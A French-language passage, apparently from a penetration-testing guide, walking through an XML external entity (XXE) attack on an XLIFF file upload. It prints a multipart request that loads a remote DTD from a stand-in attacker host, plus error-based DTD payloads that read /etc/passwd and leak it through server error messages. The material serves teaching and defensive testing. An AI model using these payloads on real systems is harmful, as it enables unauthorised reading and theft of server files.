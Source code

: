 ```json
"error": "Internal Server Error",
"message": "Error systemId: http://redacted.burpcollaborator.net/?xxe_test; The markup declarations contained or pointed to by the document type declaration must be well-formed."
}
```
Malgré l'erreur, un hit est enregistré sur Burp Collaborator, indiquant un certain niveau d'interaction avec l'entité externe.

Exfiltration de données hors bande Pour exfiltrer des données, une requête modifiée est envoyée :
```
------WebKitFormBoundaryqBdAsEtYaBjTArl3
Content-Disposition: form-data; name="file"; filename="xxe.xliff"
Content-Type: application/x-xliff+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE XXE [
<!ENTITY % remote SYSTEM "http://attacker.com/evil.dtd"> %remote; ]>
<xliff srcLang="en" trgLang="ms-MY" version="2.0"></xliff>
------WebKitFormBoundaryqBdAsEtYaBjTArl3--
```
Cette approche révèle que l'User Agent indique l'utilisation de Java 1.8. Une limitation notée avec cette version de Java est l'incapacité à récupérer des fichiers contenant un caractère de nouvelle ligne, tel que /etc/passwd, en utilisant la technique Out of Band.

Exfiltration de données basée sur les erreurs Pour surmonter cette limitation, une approche basée sur les erreurs est employée. Le fichier DTD est structuré comme suit pour déclencher une erreur qui inclut des données d'un fichier cible :
```xml
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % foo "<!ENTITY &#37; xxe SYSTEM 'file:///nofile/'>">
%foo;
%xxe;
```
Le serveur répond avec une erreur, reflétant de manière importante le fichier non existant, indiquant que le serveur tente d'accéder au fichier spécifié :
```javascript
{"status":500,"error":"Internal Server Error","message":"IO error.\nReason: /nofile (No such file or directory)"}
```
Pour inclure le contenu du fichier dans le message d'erreur, le fichier DTD est ajusté :
```xml
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % foo "<!ENTITY &#37; xxe SYSTEM 'file:///nofile/%data;'>">
%foo;
%xxe;
```
Cette modification conduit à l'exfiltration réussie du contenu du fichier, comme cela est reflété dans la sortie d'erreur envoyée via HTTP. Cela indique une attaque XXE (XML External Entity) réussie, utilisant à la fois des techniques Out of Band et Error-Based pour extraire des informations sensibles.

## RSS - XEE
